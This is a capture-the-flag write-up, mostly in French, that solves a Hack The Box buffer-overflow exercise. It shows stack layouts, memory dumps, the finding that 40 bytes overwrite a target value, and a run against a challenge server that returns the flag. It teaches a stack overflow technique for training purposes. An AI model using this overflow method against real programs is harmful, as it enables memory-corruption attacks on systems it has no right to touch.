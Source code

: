 # Fichiers fournis par le challenge

* wrapper.py : script python pour bof, modifier les valeurs requires (IP, Port, nombre de A's) et installer pwntools (pip3 install pwntools) 
* flag.txt : Exemple de flag invalide
* gs (ghostscript) : binary instrumenting tool
* ld-linux-x86-64.so.-2 : dynamic linker/loader for Linux systems
* libc.so.6 : shared library 

# Solution 

Après quelques recherches j'ai exécuté : 

LD_PRELOAD=./libc.so.6 ./ld-linux-x86-64.so.-2 ./GS

et ma donner le output suivant : 

|      .      | <- Higher addresses
|      .      |
|_____________|
|             | <- 64 bytes
| Return addr |
|_____________|
|             | <- 56 bytes
|     RBP     |
|_____________|
|             | <- 48 bytes
|   target    |
|_____________|
|             | <- 40 bytes
|  alignment  |
|_____________|
|             | <- 32 bytes
|  Buffer[31] |
|_____________|
|      .      |
|      .      |
|_____________|
|             |
|  Buffer[0]  |
|_____________| <- Lower addresses


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe8f64a100 | 0x0000000000000000 <- Start of buffer
0x00007ffe8f64a108 | 0x0000000000000000
0x00007ffe8f64a110 | 0x0000000000000000
0x00007ffe8f64a118 | 0x0000000000000000
0x00007ffe8f64a120 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffe8f64a128 | 0x00000000deadbeef <- Target to change
0x00007ffe8f64a130 | 0x00007f53e9739800 <- Saved rbp
0x00007ffe8f64a138 | 0x00007f53e9021c87 <- Saved return address
0x00007ffe8f64a140 | 0x0000000000008000
0x00007ffe8f64a148 | 0x00007ffe8f64a210


After we insert 4 "A"s, (the hex representation of A is 0x41), the stack layout like this:


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe8f64a100 | 0x0000000041414141 <- Start of buffer
0x00007ffe8f64a108 | 0x0000000000000000
0x00007ffe8f64a110 | 0x0000000000000000
0x00007ffe8f64a118 | 0x0000000000000000
0x00007ffe8f64a120 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffe8f64a128 | 0x00000000deadbeef <- Target to change
0x00007ffe8f64a130 | 0x00007f53e9739800 <- Saved rbp
0x00007ffe8f64a138 | 0x00007f53e9021c87 <- Saved return address
0x00007ffe8f64a140 | 0x0000000000008000
0x00007ffe8f64a148 | 0x00007ffe8f64a210


After we insert 4 "B"s, (the hex representation of B is 0x42), the stack layout looks like this:


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe8f64a100 | 0x4242424241414141 <- Start of buffer
0x00007ffe8f64a108 | 0x0000000000000000
0x00007ffe8f64a110 | 0x0000000000000000
0x00007ffe8f64a118 | 0x0000000000000000
0x00007ffe8f64a120 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffe8f64a128 | 0x00000000deadbeef <- Target to change
0x00007ffe8f64a130 | 0x00007f53e9739800 <- Saved rbp
0x00007ffe8f64a138 | 0x00007f53e9021c87 <- Saved return address
0x00007ffe8f64a140 | 0x0000000000008000
0x00007ffe8f64a148 | 0x00007ffe8f64a210

◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                                                                 ◉
◉  Fill the 32-byte buffer, overwrite the alginment address and the "target's" 0xdeadbeef value.  ◉
◉                                                                                                 ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉



___________________________________________________________________________________________________________________________________________________

J'ai vérifier le nombre de bytes a inséré pour le bof, après quelques essaies en commencant par 38, 40 est le nombre magique et a donner ce output :

python3 ./wrapper.py 
[+] Opening connection to 209.97.134.50 on port 30135: Done
[+] Flag --> HTB{b0f_s33m5_3z_r1ght?}
[*] Closed connection to 209.97.134.50 port 30135

